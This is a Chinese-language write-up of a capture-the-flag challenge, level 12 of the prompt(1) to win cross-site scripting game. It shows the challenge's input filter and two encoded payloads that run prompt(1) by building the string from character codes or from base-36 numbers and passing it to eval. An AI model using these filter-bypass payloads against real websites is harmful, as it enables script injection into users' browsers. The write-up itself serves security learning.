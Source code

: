 ## [[prompt(1) to win](http://prompt.ml)] [[Level C - ノ┬─┬ノ ︵ ( \\o°o)\\](http://prompt.ml/12)] [[解题报告](http://exp-blog.com/2019/03/25/pid-3723/)]

------

## 题目

```javascript
function escape(input) {
    // in Soviet Russia...
    input = encodeURIComponent(input).replace(/'/g, '');
    // table flips you!
    input = input.replace(/prompt/g, 'alert');

    // ノ┬─┬ノ ︵ ( \o°o)\
    return '<script>' + input + '</script> ';
}
```

## 解题报告

这题与 【[Level A – (╯°□°）╯︵ ┻━┻](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2010%20-%20%28%E2%95%AF%C2%B0%E2%96%A1%C2%B0%EF%BC%89%E2%95%AF%EF%B8%B5%20%E2%94%BB%E2%94%81%E2%94%BB)】 十分相似。

区别在于 `replace` 的 `prompt` 和 单引号 `'` 的顺序反转了。

但是无论顺序如何，过滤后可以使用的字符都只剩下  `a-z`、 `A-Z`、`0-9`、 `.`、 `(`、 `)`、 `!`、 `~`、 `*` 。

因此这题直接使用 【[Level A – (╯°□°）╯︵ ┻━┻](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2010%20-%20%28%E2%95%AF%C2%B0%E2%96%A1%C2%B0%EF%BC%89%E2%95%AF%EF%B8%B5%20%E2%94%BB%E2%94%81%E2%94%BB)】 的 payload 就可以 pass ：

```javascript
eval(String.fromCharCode(112).concat(String.fromCharCode(114)).concat(String.fromCharCode(111)).concat(String.fromCharCode(109)).concat(String.fromCharCode(112)).concat(String.fromCharCode(116)).concat(String.fromCharCode(40)).concat(String.fromCharCode(49)).concat(String.fromCharCode(41)))
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2012%20-%E3%83%8E%E2%94%AC%E2%94%80%E2%94%AC%E3%83%8E%20%EF%B8%B5%20%28%20%60o%C2%B0o%29%60/imgs/01.png)


------------

但其实这题还有另一种更巧妙的解法。

在 JS 中存在一个函数 `parseInt(str, radix)` 。

默认情况下，`radix = 10`，即它可以把十进制的数字字符串转换成十进制数。

但是通过调整进制数 `radix` ，它可以把其他进制的字符串转换成十进制数。

而当 `radix = 36` 时。它可以把只包含 `0-9a-z` （大小写不敏感）的字符串转换成十进制数。

于是我们可以把 `prompt`  字符串转换成十进制数：`parseInt("prompt", 36)` ，得到 `1558153217` 。

![](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2012%20-%E3%83%8E%E2%94%AC%E2%94%80%E2%94%AC%E3%83%8E%20%EF%B8%B5%20%28%20%60o%C2%B0o%29%60/imgs/02.png)

而要将十进制数字还原成字符串，则可以使用另一个函数 `toString(radix)` （默认情况下 `radix = 10` ）。

即可以使用此方法 `(1558153217).toString(36)` 还原得到 `prompt` 字符串：

![](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2012%20-%E3%83%8E%E2%94%AC%E2%94%80%E2%94%AC%E3%83%8E%20%EF%B8%B5%20%28%20%60o%C2%B0o%29%60/imgs/03.png)

于是最开始的 payload 就开始简化成这样：

```javascript
eval((1558153217).toString(36).concat(String.fromCharCode(40)).concat(1).concat(String.fromCharCode(41)))
```

>  注：【[Level A – (╯°□°）╯︵ ┻━┻](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2010%20-%20%28%E2%95%AF%C2%B0%E2%96%A1%C2%B0%EF%BC%89%E2%95%AF%EF%B8%B5%20%E2%94%BB%E2%94%81%E2%94%BB)】 同样可以使用这个 payload 完成挑战。

![](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2012%20-%E3%83%8E%E2%94%AC%E2%94%80%E2%94%AC%E3%83%8E%20%EF%B8%B5%20%28%20%60o%C2%B0o%29%60/imgs/04.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
